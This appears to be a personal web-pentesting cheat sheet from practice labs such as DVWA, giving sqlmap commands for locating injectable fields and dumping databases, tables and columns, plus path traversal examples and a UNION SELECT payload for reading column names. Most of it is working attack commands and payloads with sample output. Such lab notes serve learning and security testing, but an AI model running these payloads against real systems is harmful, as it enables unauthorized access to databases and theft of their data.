 

### enumerate db
``id=1 order by 1``
* Then you can enumerate user automatically one by one

### sqlmap 

``sqlmap -cookie="security=high; PHPSESSID=a3a6968ac0cb1775f890061af0b42108"" -u “http://192.168.0.6/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#”``
* to just run in mysql and not maria db
``sqlmap -u “http://192.168.0.6/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#” --dbms=mysql``

* better to sent request trough ZAP proxy save the request somehwere and the to run it with the file:
``sqlmap -r "/home/kali/Documents/sqlinj.raw"``

* enumerate all sql tables to get an full reports of them
``sqlmap -r "/home/kali/Documents/sqlinj.raw" --tables``

* sql map to find a spefic string in the response "please try to..." and sql attack only username_reg also return DB
`sqlmap -r request.txt --string "please try to register with a different username" -p username_reg --threads 1`

#### Process for sql (automated)
1) locate vuln field (check blind sql) or automated (--string is the indicator for "success"): `sqlmap -r /home/kali/Documents/sqlInj2.raw --string "please try to register with a different username" --thread=1` dbms we get from this response

2) get db from the vuln field: `sqlmap -r "/home/kali/Documents/sqlInj.raw" --string "please try to register with a different username" -p username_reg --threads 1 --dbms="HSQLDB" --current-db`
reurns: 

[17:42:07] [INFO] the back-end DBMS is HSQLDB
back-end DBMS: HSQLDB >= 2.0.0 and < 2.3.0
current database (equivalent to schema on HSQLDB): 'PUBLIC'

3) to get tables from a DB (when we have a vulnurable field: in our case: username_reg)
``sqlmap -r "/home/kali/Documents/sqlInj.raw" --string "please try to register with a different username" -p username_reg --thread=10 --technique=B --dbms="HSQLDB" -D PUBLIC --tables --level=5 --risk=3``
usually this returns us a table which we can enumerate its rows by f.e.: CHALLENGE_USERS
`sqlmap -r request.txt --string "please try to register with a different username" -p username_reg --thread=1 --technique=B --dbms="HSQLDB" -D PUBLIC -T CHALLENGE_USERS --columns --level=5 --risk=3`

# Path traversal

for example in file upload try to use on linux `../` to navigate back in the url (might be achievable via POST request).

example: `http://www.test.com?file=../yolo.txt` or encode URL encode it before (even two times)

# To find out tables for Union
"' UNION SELECT name,name,name FROM PRAGMA_TABLE_INFO('users') WHERE name != 'id' AND name != 'password' --" 

